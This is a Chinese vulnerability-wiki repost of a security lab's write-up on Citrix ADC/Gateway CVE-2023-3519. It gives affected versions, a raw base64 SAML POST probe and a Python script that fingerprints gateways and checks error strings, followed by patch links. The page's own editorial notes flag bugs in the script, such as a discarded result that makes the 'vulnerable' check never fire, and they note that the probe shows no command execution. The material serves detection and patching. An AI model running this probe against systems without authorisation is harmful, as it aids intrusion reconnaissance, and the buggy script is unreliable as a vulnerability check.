







# Citrix ADC/Gateway CVE-2023-3519 远程代码执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- verify函数返回值未保存，随后把函数对象与vulnerable字符串比较永远不真
- Last-Modified跨分支比较误报且头缺失KeyError未捕获
- 两个GET无超时
- 未知响应默认not_vulnerable导致漏报
- 展示为SAML错误差异检测而非命令执行成功
- 原始POST头体缺空行
- 版本中文之前顺序混乱且需网关/AAA配置前提
- 保留官方CTX和Assetnote分析，清营销

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/_8Zvj_Gr7tR2pO447ZoKMA)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**  

Citrix Systems Citrix Gateway（Citrix Systems NetScaler Gateway）和 Citrix ADC 都是美国思杰系统（Citrix Systems）公司的产品。Citrix Gateway 是一套安全的远程接入解决方案。该产品可为管理员提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据。Citrix ADC 是一个最全面的应用程序交付和负载平衡解决方案。用于实现应用程序安全性、整体可见性和可用性。

Citrix ADC 和 Citrix Gateway 存在代码注入漏洞，该漏洞源于存在远程代码执行漏洞。受影响的产品和版本：

NetScaler ADC 和 NetScaler Gateway 13.1 之前的 13.1-49.13 版本，13.0 之前的 13.0-91.13 版；

NetScaler ADC 13.1-FIPS 之前的 13.1-37.159 版本，12.1-FIPS 之前的 12.1-55.297 版本，12.1-NDcPP 12.1-55.297 之前版本。


  

**0x02 影响版本**  

NetScaler ADC 、NetScaler Gateway 13.1 < 13.1-49.13      NetScaler ADC 、NetScaler Gateway 13.0 < 13.0-91.13      NetScaler ADC 13.1-FIPS < 13.1-37.159      NetScaler ADC 12.1-FIPS < 12.1-55.297      NetScaler ADC 12.1-NDcPP < 12.1-55.297 注意：NetScaler ADC 和 NetScaler Gateway 12.1 版本现已终止生命周期 (EOL)，并且容易受到攻击。




  

**0x03 漏洞复现**  

  

1. 漏洞环境访问



2. 对漏洞进行复现

 **Poc （POST）**

```http
POST /saml/login HTTP/1.1
Host: 127.0.0.1
Connection: close
Content-Length: 3150
Content-Type: application/x-www-form-urlencoded
SAMLRequest=PHNhbWxwOkF1dGhuUmVxdWVzdCB4bWxuczpzYW1scD0idXJuOm9hc2lzOm5hbWVzOnRjOlNBTUw6Mi4wOnByb3RvY29sIiB4bWxuczpzYW1sPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YXNzZXJ0aW9uIiBJRD0icGZ4NDFkOGVmMjItZTYxMi04YzUwLTk5NjAtMWIxNmYxNTc0MWIzIiBWZXJzaW9uPSIyLjAiIFByb3ZpZGVyTmFtZT0iU1AgdGVzdCIgRGVzdGluYXRpb249Imh0dHA6Ly9pZHAuZXhhbXBsZS5jb20vU1NPU2VydmljZS5waHAiIFByb3RvY29sQmluZGluZz0idXJuOm9hc2lzOm5hbWVzOnRjOlNBTUw6Mi4wOmJpbmRpbmdzOkhUVFAtUE9TVCIgQXNzZXJ0aW9uQ29uc3VtZXJTZXJ2aWNlVVJMPSJodHRwOi8vc3AuZXhhbXBsZS5jb20vZGVtbzEvaW5kZXgucGhwP2FjcyI+CiAgPHNhbWw6SXNzdWVyPkE8L3NhbWw6SXNzdWVyPgogIDxkczpTaWduYXR1cmUgeG1sbnM6ZHM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyMiPgogICAgPGRzOlNpZ25lZEluZm8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpTaWduYXR1cmVNZXRob2QgQWxnb3JpdGhtPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwLzA5L3htbGRzaWcjcnNhLXNoYTEiLz4KICAgICAgPGRzOlJlZmVyZW5jZSBVUkk9IiNwZng0MWQ4ZWYyMi1lNjEyLThjNTAtOTk2MC0xYjE2ZjE1NzQxYjMiPgogICAgICAgIDxkczpUcmFuc2Zvcm1zPgogICAgICAgICAgPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyNlbnZlbG9wZWQtc2lnbmF0dXJlIi8+CiAgICAgICAgICA8ZHM6VHJhbnNmb3JtIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgICAgPC9kczpUcmFuc2Zvcm1zPgogICAgICAgIDxkczpEaWdlc3RWYWx1ZT5BPC9kczpEaWdlc3RWYWx1ZT4KICAgICAgPC9kczpSZWZlcmVuY2U+CiAgICA8L2RzOlNpZ25lZEluZm8+CiAgICA8ZHM6U2lnbmF0dXJlVmFsdWU+QTwvZHM6U2lnbmF0dXJlVmFsdWU+CiAgPC9kczpTaWduYXR1cmU+CiAgPHNhbWxwOk5hbWVJRFBvbGljeSBGb3JtYXQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjEuMTpuYW1laWQtZm9ybWF0OmVtYWlsQWRkcmVzcyIgQWxsb3dDcmVhdGU9InRydWUiLz4KICA8c2FtbHA6UmVxdWVzdGVkQXV0aG5Db250ZXh0IENvbXBhcmlzb249ImV4YWN0Ij4KICAgIDxzYW1sOkF1dGhuQ29udGV4dENsYXNzUmVmPnVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDphYzpjbGFzc2VzOlBhc3N3b3JkUHJvdGVjdGVkVHJhbnNwb3J0PC9zYW1sOkF1dGhuQ29udGV4dENsYXNzUmVmPgogIDwvc2FtbHA6UmVxdWVzdGVkQXV0aG5Db250ZXh0Pgo8L3NhbWxwOkF1dGhuUmVxdWVzdD4=

```

POST 请求



查看系统版本

http://127.0.0.1:8088/vpn/pluginlist.xml



执行注销登录



3.python 脚本测试（漏洞存在）

1. 测试 1  



 2. 测试 2



Python 脚本检测此漏洞

https://github.com/synfinner/CitriDish

```
#!/usr/bin/env python3
import argparse
import requests
import sys
import datetime
# Author: @synfinner
# Credit to Deutsche Telekom CERT for the patched versions array
# Suppress insecure request warnings
requests.packages.urllib3.disable_warnings()
# Citrix Gateways and AAAs have two different paths that can be used to identify them.
# Define constants for the paths
# Citrix Gateway Path
CGW_PATH = "/vpn/logout.html"
# Citrix AAA path
AAA_PATH = "/logon/LogonPoint/tmindex.html"
# Patched versions array. Credit to Deutsche Telekom CERT
PATCHED_VERSIONS = [
    {"version": "13.0-91.13", "timestamp": "Fri, 07 Jul 2023 15:39:40 GMT"},
    {"version": "13.1-49.13", "timestamp": "Mon, 10 Jul 2023 17:41:17 GMT"},
    {"version": "13.1-49.13", "timestamp": "Mon, 10 Jul 2023 18:36:14 GMT"}
]
# Assetnote check script
def verify_cve_2023_3519(target):
    # SAML assertion from Assetnots' work
    saml_assertion = """PHNhbWxwOkF1dGhuUmVxdWVzdCB4bWxuczpzYW1scD0idXJuOm9hc2lzOm5hbWVzOnRjOlNBTUw6Mi4wOnByb3RvY29sIiB4bWxuczpzYW1sPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YXNzZXJ0aW9uIiBJRD0icGZ4NDFkOGVmMjItZTYxMi04YzUwLTk5NjAtMWIxNmYxNTc0MWIzIiBWZXJzaW9uPSIyLjAiIFByb3ZpZGVyTmFtZT0iU1AgdGVzdCIgRGVzdGluYXRpb249Imh0dHA6Ly9pZHAuZXhhbXBsZS5jb20vU1NPU2VydmljZS5waHAiIFByb3RvY29sQmluZGluZz0idXJuOm9hc2lzOm5hbWVzOnRjOlNBTUw6Mi4wOmJpbmRpbmdzOkhUVFAtUE9TVCIgQXNzZXJ0aW9uQ29uc3VtZXJTZXJ2aWNlVVJMPSJodHRwOi8vc3AuZXhhbXBsZS5jb20vZGVtbzEvaW5kZXgucGhwP2FjcyI+CiAgPHNhbWw6SXNzdWVyPkE8L3NhbWw6SXNzdWVyPgogIDxkczpTaWduYXR1cmUgeG1sbnM6ZHM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyMiPgogICAgPGRzOlNpZ25lZEluZm8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpDYW5vbmljYWxpemF0aW9uTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgIDxkczpTaWduYXR1cmVNZXRob2QgQWxnb3JpdGhtPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwLzA5L3htbGRzaWcjcnNhLXNoYTEiLz4KICAgICAgPGRzOlJlZmVyZW5jZSBVUkk9IiNwZng0MWQ4ZWYyMi1lNjEyLThjNTAtOTk2MC0xYjE2ZjE1NzQxYjMiPgogICAgICAgIDxkczpUcmFuc2Zvcm1zPgogICAgICAgICAgPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyNlbnZlbG9wZWQtc2lnbmF0dXJlIi8+CiAgICAgICAgICA8ZHM6VHJhbnNmb3JtIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8xMC94bWwtZXhjLWMxNG4jIi8+CiAgICAgICAgPC9kczpUcmFuc2Zvcm1zPgogICAgICAgIDxkczpEaWdlc3RWYWx1ZT5BPC9kczpEaWdlc3RWYWx1ZT4KICAgICAgPC9kczpSZWZlcmVuY2U+CiAgICA8L2RzOlNpZ25lZEluZm8+CiAgICA8ZHM6U2lnbmF0dXJlVmFsdWU+QTwvZHM6U2lnbmF0dXJlVmFsdWU+CiAgPC9kczpTaWduYXR1cmU+CiAgPHNhbWxwOk5hbWVJRFBvbGljeSBGb3JtYXQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjEuMTpuYW1laWQtZm9ybWF0OmVtYWlsQWRkcmVzcyIgQWxsb3dDcmVhdGU9InRydWUiLz4KICA8c2FtbHA6UmVxdWVzdGVkQXV0aG5Db250ZXh0IENvbXBhcmlzb249ImV4YWN0Ij4KICAgIDxzYW1sOkF1dGhuQ29udGV4dENsYXNzUmVmPnVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDphYzpjbGFzc2VzOlBhc3N3b3JkUHJvdGVjdGVkVHJhbnNwb3J0PC9zYW1sOkF1dGhuQ29udGV4dENsYXNzUmVmPgogIDwvc2FtbHA6UmVxdWVzdGVkQXV0aG5Db250ZXh0Pgo8L3NhbWxwOkF1dGhuUmVxdWVzdD4="""
    vuln_request = requests.post("https://" + target + "/saml/login", data={"SAMLRequest": saml_assertion}, verify=False, timeout=10)
    citrix_response = vuln_request.text
    # Check to see if the response contains strings identified by Assetnote
    state = "not_vulnerable"
    if "Matching policy not found while trying to process Assertion; Please contact your administrator" in citrix_response:
        state = "saml_disabled"
    if "Unsupported mechanisms found in Assertion; Please contact your administrator" in citrix_response:
        state = "patched"
    if "SAML Assertion verification failed; Please contact your administrator" in citrix_response:
        state = "vulnerable"
    return state
def check_citrix(target,check_cve_2023_3519):
    # Define url variable with https and the ip address or hostname
    url = "https://" + target.strip()
    # Define the citrix gateway url by adding the citrix gateway path to the url variable
    cgw_url = url + CGW_PATH
    # Define the citrix aaa url by adding the citrix aaa path to the url variable
    aaa_url = url + AAA_PATH
    try:
        # Perform a get request to the citrix gateway url and aaa url
        cgw_response = requests.get(cgw_url, verify=False)
        aaa_response = requests.get(aaa_url, verify=False)
        if cgw_response.status_code == 200:
            # If the status code is 200, check for specific content to identify it as a citrix gateway
            if "<title>Citrix Gateway</title>" in cgw_response.text or "/vpn/js/logout_view.js?v=" in cgw_response.text:
                # Print the host or ip and that it is a citrix gateway
                # set last_modified to the last modified header in datetime format
                last_modified = datetime.datetime.strptime(cgw_response.headers["Last-Modified"], "%a, %d %b %Y %H:%M:%S %Z")
                potentially_vuln = False
                # Loop through the patched versions array and if the last_modified variable is less than the timestamp set potentially_vuln to True
                for patched_version in PATCHED_VERSIONS:
                    if last_modified < datetime.datetime.strptime(patched_version["timestamp"], "%a, %d %b %Y %H:%M:%S %Z"):
                        potentially_vuln = True
                # If potentially_vuln is True, print the host or ip and that it is a citrix gateway and potentially vulnerable
                if potentially_vuln:
                    print(target + " - Potentially vulnerable Citrix Gateway identified (CVE-2023-3519)")
                else:
                    print(target + " - Citrix Gateway identified")
                if check_cve_2023_3519:
                    # call the check function to verify if the system is vulnerable to CVE-2023-3519
                    verify_cve_2023_3519(target)
                    if verify_cve_2023_3519 == "vulnerable":
                        print(target + " - Vulnerable to CVE-2023-3519")
        if aaa_response.status_code == 200:
            # If the status code is 200, check for specific content to identify it as a citrix aaa
            if '_ctxstxt_NetscalerAAA' in aaa_response.text:
                # Print the host or ip and that it is a citrix aaa
                print(target + " - Citrix AAA identified")
    except requests.exceptions.RequestException as e:
        # Print an error message if there was an issue with the request
        print(target + " - Error: " + str(e))
def main():
    parser = argparse.ArgumentParser(description="Identify if a system is running Citrix Gateway, or Citrix AAA.")
    parser.add_argument('targets', nargs='*', help="The IP address(es) or hostname(s) to check.")
    parser.add_argument('--file', '-f', help="Read targets from a file (one IP/hostname per line).")
    # Add argument to check for CVE-2023-3519 vulnerability with --cve-2023-3519 flag
    parser.add_argument('--cve-2023-3519', action='store_true', help="Check for CVE-2023-3519 vulnerability.")
    args = parser.parse_args()
    if args.cve_2023_3519:
        # if the --cve-2023-3519 flag is used set variable check_cve_2023_3519 to True
        check_cve_2023_3519 = True
    else:
        check_cve_2023_3519 = False
    if args.file:
        try:
            with open(args.file, 'r') as file:
                targets = file.read().splitlines()
        except FileNotFoundError:
            print("Error: File not found.")
            sys.exit(1)
    elif args.targets:
        targets = args.targets
    else:
        print("Usage: python3 citridish.py [options] <ip address or hostname>")
        sys.exit(1)
    for target in targets:
        check_citrix(target,check_cve_2023_3519)
if __name__ == "__main__":
    main()

```


  

**0x04 修复建**

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://support.citrix.com/article/CTX561482/citrix-adc-and-citrix-gateway-security-bulletin-for-cve20233519-cve20233466-cve20233467

```

参考链接  

```
https://blog.assetnote.io/2023/07/21/citrix-CVE-2023-3519-analysis/

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
